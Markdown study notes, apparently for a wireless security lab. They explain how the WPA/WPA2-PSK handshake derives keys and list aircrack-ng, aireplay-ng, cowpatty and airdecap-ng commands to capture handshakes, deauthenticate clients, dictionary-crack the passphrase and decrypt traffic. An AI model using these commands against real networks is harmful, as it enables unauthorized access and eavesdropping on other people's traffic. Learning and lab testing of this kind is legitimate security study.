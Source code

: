 ## Dictionary attacks on WPA & WPA2-PSK

WPA/WPA2 PSK works by deriving a per-session key, called the Pairwise Transient key (PTK),
using the PSK and fiver other parameters -- SSID of the network, Authenticator Nonce (ANonce),
Supplicatant Noce (SNonce), Authenticator MAC address and access point MAC.

This key is used to encrypt all data between the client and access point. If the entire
 handshake is intercepted all parameters can be obtained except for the PSK. This can
 be brute forced offline using a dictionary attack. You must have the PSK in the
 dictionary for it to work.

The PSK is derived using a password based key deriviation function (PBKDF2) which
 outputs a 256-bit shared key. Using a tool the 256-bit PSK from each passphrase
 this is used to verify the Message Integrity Check (MIC) of one of the captured
 handshake. 

## Cracking a weak password

```
airodump-ng --bssid 00:00... --channel 11 --write demo wlan0mon
```

* deauth existing clients to capture handshake

```
aireplay-ng --deauth 1 -a xx:xx.. wlan0mon --ignore-negative-one
```

* airodump will indicate "WPA handshake" when detected or a fixed channel message
* stop airodump
* aircrack-ng demo.cap -w /usr/share/wordlists/nmap.list


## pre-calculating PMKs
```
genpmk -f <wordlist> -d PMK-output -s "<wireless_lab>"
cowpatty -d PMK-lab -s "<wireless_lab>" -r demo.cap
```
## decrypting WEP or WPA packets

```
airdecap-ng -w <cracked_password> wep_crack_demo.cap
tshark -r wep_crack_demo.cap
```
## connecting to a WEP network

```
iwconfig wlan0 essid "wireless_lab" key password
iwconfig wlan0
```

## connecting to WPA using wpa_supplicant
